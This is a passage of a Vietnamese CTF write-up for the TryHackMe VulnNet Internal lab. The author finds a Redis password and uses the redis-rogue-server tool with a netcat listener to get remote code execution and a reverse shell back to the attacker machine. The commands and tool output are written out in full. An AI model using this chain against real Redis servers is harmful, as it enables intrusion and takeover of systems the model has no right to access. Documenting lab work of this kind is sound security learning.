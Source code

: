 Tôi sẽ tập trung phân tích *redis* trước vì tôi thấy có service ở phía trên, có thể khai thác được gì đó, cái gì đó ở đây có thể password để truy cập vào service này. Tôi thử tìm "pass" và đã có kết quả

![pass-redis](/assets/img/2022-04-08-THM-VulnNet-Internal/2.webp)

Bây giờ thì thử tìm kiếm các cách khai thác với *redis*

[6379 - Pentesting Redis - HackTricks](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis)

Sử dụng [Redis Rogue Server](https://github.com/n0b0dyCN/redis-rogue-server) để tạo RCE

```python
┌──(kali㉿kali)-[~/redis-rogue-server]
└─$ python redis-rogue-server.py --rhost 10.10.116.142 --lhost 10.6.0.191 --lport 2402 --passwd B65Hx562F@ggAZ@F
______         _ _      ______                         _____                          
| ___ \       | (_)     | ___ \                       /  ___|                         
| |_/ /___  __| |_ ___  | |_/ /___   __ _ _   _  ___  \ `--.  ___ _ ____   _____ _ __ 
|    // _ \/ _` | / __| |    // _ \ / _` | | | |/ _ \  `--. \/ _ \ '__\ \ / / _ \ '__|
| |\ \  __/ (_| | \__ \ | |\ \ (_) | (_| | |_| |  __/ /\__/ /  __/ |   \ V /  __/ |   
\_| \_\___|\__,_|_|___/ \_| \_\___/ \__, |\__,_|\___| \____/ \___|_|    \_/ \___|_|   
                                     __/ |                                            
                                    |___/                                             
@copyright n0b0dy @ r3kapig

[info] TARGET 10.10.116.142:6379
[info] SERVER 10.6.0.191:2402
[info] Setting master...
[info] Authenticating...
[info] Setting dbfilename...
[info] Loading module...
[info] Temerory cleaning up...
What do u want, [i]nteractive shell or [r]everse shell: r
[info] Open reverse shell...
Reverse server address:
```

Đến bước này, trước khi nhập address, tôi sẽ tạo listener với port 9001

`nc -lnvp 9001`

Sau đó thì nhập IP và port của máy local của tôi

```python
Reverse server address: 10.6.0.191
Reverse server port: 9001
[info] Reverse shell payload sent.
[info] Check at 10.6.0.191:9001
[info] Unload module...
```
